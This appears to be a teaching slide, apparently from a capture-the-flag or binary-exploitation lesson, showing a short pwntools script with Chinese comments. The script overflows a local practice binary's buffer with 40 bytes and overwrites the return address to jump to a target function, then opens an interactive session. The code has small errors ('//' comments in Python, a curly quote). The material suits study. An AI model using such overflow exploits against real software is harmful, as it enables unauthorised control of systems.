

# exploit code
from pwn import *
// 載入pwntool套件
r = process('./gohome’)
// 讀取檔案
r.sendlineafter("?",b"a"*40+p64(0x004006c6))
//在?號之後填入40個a，在RETURN ADDRESS的位置填上Billyshouse()的位置
r.interactive()